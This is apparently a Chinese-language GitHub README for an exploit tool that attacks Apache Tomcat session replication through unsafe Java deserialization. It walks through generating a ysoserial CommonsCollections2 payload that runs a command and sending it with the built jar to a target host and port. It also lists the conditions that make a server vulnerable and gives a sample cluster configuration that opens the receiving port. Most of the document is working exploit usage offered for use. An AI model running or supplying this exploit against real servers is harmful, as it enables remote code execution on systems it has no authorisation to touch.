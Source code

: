 ### tomcat session 同步exp

1. tomcat session 同步的时候会使用反序列化，这里tomcat没有做白名单处理，存在任意反序列化的问题
2. tomcat session 同步会开启一个端口接受反序列化数据，例如下文tomcat-session同步配置的<Receiver>节点的恩日哦给你



### 使用

1、使用ysoserial( https://github.com/frohoff/ysoserial.git) 生成payload
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "cmd /c notepad" > test.ser
```
2、构建本工程
```
mvn package
```
3、复制test.ser到本工程的目录下
```
java -jar tomcat-sesesion-syn-deserialization-1.0-SNAPSHOT-jar-with-dependencies.jar  -h ${your ip} -p ${your port} -f ${youre serialization file}
```

### 条件
1. tomcat启用了session同步
2. tomcat的classpath中存在可以序列化的利用链，比如commons-collections4

### tomcat-session同步配置
（conf/server.xml）：
```
<Engine>下面的配置放置到Engine节点下
        ...
        ...
	  <Cluster className="org.apache.catalina.ha.tcp.SimpleTcpCluster"  
                channelSendOptions="8">  
  
         <Manager className="org.apache.catalina.ha.session.DeltaManager"  
                  expireSessionsOnShutdown="false"  
                  notifyListenersOnReplication="true"/>  
  
         <Channel className="org.apache.catalina.tribes.group.GroupChannel">  
           <Membership className="org.apache.catalina.tribes.membership.McastService"  
                       address="228.0.0.4"  
                       port="45564"  
                       frequency="500"  
                       dropTime="3000"/>  
           <Receiver className="org.apache.catalina.tribes.transport.nio.NioReceiver"  
                     address="auto"  
                     port="4000"  
                     autoBind="100"  
                     selectorTimeout="5000"  
                     maxThreads="6"/>  
  
           <Sender className="org.apache.catalina.tribes.transport.ReplicationTransmitter">  
           <Transport className="org.apache.catalina.tribes.transport.nio.PooledParallelSender"/>  
           </Sender>  
           <Interceptor className="org.apache.catalina.tribes.group.interceptors.TcpFailureDetector"/>  
           <!--<Interceptor className="org.apache.catalina.tribes.group.interceptors.MessageDispatch15Interceptor"/>  -->
         </Channel>  
  
         <Valve className="org.apache.catalina.ha.tcp.ReplicationValve"  
                filter=""/>  
        <!-- <Valve className="org.apache.catalina.ha.session.JvmRouteBinderValve"/>  -->
  
         <Deployer className="org.apache.catalina.ha.deploy.FarmWarDeployer"  
                   tempDir="/tmp/war-temp/"  
                   deployDir="/tmp/war-deploy/"  
                   watchDir="/tmp/war-listen/"  
                   watchEnabled="false"/>  
  
         <!--<ClusterListener className="org.apache.catalina.ha.session.JvmRouteSessionIDBinderListener"/>  -->
         <ClusterListener className="org.apache.catalina.ha.session.ClusterSessionListener"/>  
       </Cluster>  
       ....
       ....
</Engine>
```
